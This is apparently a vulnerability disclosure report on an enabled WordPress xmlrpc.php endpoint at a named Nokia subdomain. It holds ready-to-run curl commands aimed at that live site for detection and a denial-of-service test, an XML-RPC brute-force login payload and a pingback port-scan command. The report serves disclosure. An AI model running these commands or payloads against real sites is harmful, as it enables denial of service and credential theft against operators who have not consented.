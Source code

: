 # Xmlrpc.php 

# Description :
##### Wordpress that have xmlrpc.php enabled for pingbacks, trackbacks, etc. can be made as a part of a huge botnet causing a major DDOS and Start Brute Force attack . The website https://wavelite-selector.networks.nokia.com has the xmlrpc.php file enabled
##### In order to determine whether the xmlrpc.php file is enabled or not, using the Repeater tab in Burp, send the request below.

```
$ curl -d @do.txt https://wavelite-selector.networks.nokia.com/xmlrpc.php
```
<img src='src/xmlrpc_first.png'>

#### Notice that a successful response is received showing that the xmlrpc.php file is enabled.

### Now i will use 2 attacks (Dos Attack) and (Brute Force)
<hr>
## Dos Attack
```
$ curl -d @dos.txt https://wavelite-selector.networks.nokia.com/xmlrpc.php
```
#### Response :
<img src='src/nokia_xmlrpc_dos.png'>
<hr>
## Brute Force

##### payload
```
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```

<img src='src/ccw.png'>
<hr>
## Port scanning
#### Download This Tool https://github.com/FireFart/WordpressPingbackPortScanner 
```
./wppps.rb https://wavelite-selector.networks.nokia.com/xmlrpc.php https://wavelite-selector.networks.nokia.com/xmlrpc.php
```

## Reference :
* https://medium.com/@protector47/how-to-hack-wordpress-website-via-xmlrpc-php-61c813fa3740

# Impact
### This can be automated from multiple hosts and be used to cause a mass DDOS attack on the victim.
### this method is also used for brute force attacks to stealing the admin credentials and other important credentials
